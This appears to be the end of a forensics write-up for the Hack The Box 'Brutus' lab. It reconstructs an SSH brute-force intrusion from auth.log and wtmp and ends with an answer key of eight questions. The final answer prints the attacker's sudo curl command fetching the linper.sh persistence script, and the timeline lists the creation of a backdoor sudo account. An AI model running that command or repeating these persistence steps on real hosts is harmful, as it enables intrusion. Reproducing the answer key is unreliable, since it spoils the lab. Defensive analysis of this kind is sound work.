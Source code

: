 ### Timeline

Putting all that together makes the following timeline:

Time (UTC) | Description | Reference  
---|---|---  
06:18:01 | First entry in `auth.log`. | `auth.log`  
06:31:33 | SSH brute force start | `auth.log`  
06:31:40 | root SSH login successful | `auth.log`  
06:31:42 | SSH brute force stop | `auth.log`  
06:32:44 | SSH login as root | `auth.log`  
06:32:45 | Terminal session starts as root | `wtmp`  
06:34:18 | cyberjunkie user and group created | `auth.log`  
06:35:15 | cyberjunkie added to sudo group | `auth.log`  
06:37:24 | root session disconnects | `auth.log`  
06:37:34 | SSH login as cyberjunkie | `auth.log`  
06:37:35 | Terminal session starts as cyberjunkie | `wtmp`  
06:37:57 | cyberjunkie accesses `/etc/shadow` | `auth.log`  
06:39:38 | cyberjunkie downloads `linper.sh` | `auth.log`  
06:41:01 | Last entry in `auth.log` | `auth.log`  
  
### Question Answers

  1. Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

65.2.161.68

  2. The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

root

  3. Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

2024-03-06 06:32:45

  4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker’s session for the user account from Question 2?

37

  5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

cyberjunkie

  6. What is the MITRE ATT&CK sub-technique ID used for persistence?

T1136.001

  7. How long did the attacker’s first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

279

  8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

/usr/bin/curl
https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

[](/2024/04/09/htb-sherlock-brutus.html)

